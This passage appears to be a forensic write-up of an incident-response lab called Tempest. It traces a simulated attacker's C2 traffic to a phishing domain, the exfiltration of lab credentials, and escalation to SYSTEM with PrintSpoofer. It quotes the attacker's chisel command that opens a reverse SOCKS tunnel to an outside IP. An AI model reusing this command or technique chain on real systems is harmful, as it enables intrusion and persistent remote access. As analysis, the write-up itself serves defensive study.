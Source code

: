 ## Network Analysis and C2 Behavior
Using Wireshark, I filtered HTTP traffic between the victim IP (192.168.254.107) and attacker IPs (167.71.199.191 / 167.71.222.162).
The captured data revealed Base64-encoded HTTP requests to:
- http://phishteam.xyz/02dcf07/index.html
The binary used parameter q to send encoded results and fetched new commands via:
- /9ab62b5?
using the HTTP GET method.
The User-Agent header indicated the payload was written in Nim.

<img src="screenshots/tempest2.png" width="600">

## Discovery of Credentials and SOCKS Proxy Setup
From decoded traffic, the attacker exfiltrated credentials found in a PowerShell script:
- User: TEMPEST\benimaru
- Password: infernotempest
The attacker used these credentials to explore active connections and open ports — identifying port 5985 (WinRM) for remote shell access.
To maintain access, they deployed a reverse SOCKS proxy using ch.exe, executed with:
- C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks
Hash of the binary:
- 8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451
Tool identified as: chisel
<img src="screenshots/tempest3.png" width="600">

## Privilege Escalation and Persistence
After lateral movement, the attacker downloaded another tool named spf.exe (hash 8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D) — identified as PrintSpoofer.
It abused the SeImpersonatePrivilege to escalate privileges to SYSTEM.
Then the attacker executed final.exe, which reconnected to the C2 over port 8080.
